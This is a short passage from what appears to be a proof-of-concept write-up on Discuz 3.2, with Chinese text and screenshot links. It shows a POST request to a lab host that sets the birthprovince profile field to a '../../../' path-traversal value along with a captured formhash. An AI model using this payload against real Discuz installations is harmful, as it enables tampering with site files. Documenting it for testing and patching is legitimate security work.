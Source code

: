 ![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/82.png)

可以看到formhash值是b21b6577。再访问10.0.2.15:8999/discuz3_2/home.php?mod=spacecp&ac=profile&op=base  Post数据：birthprovince=../../../importantfile.txt&profilesubmit=1&formhash=b21b6577  如图

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/83.png)
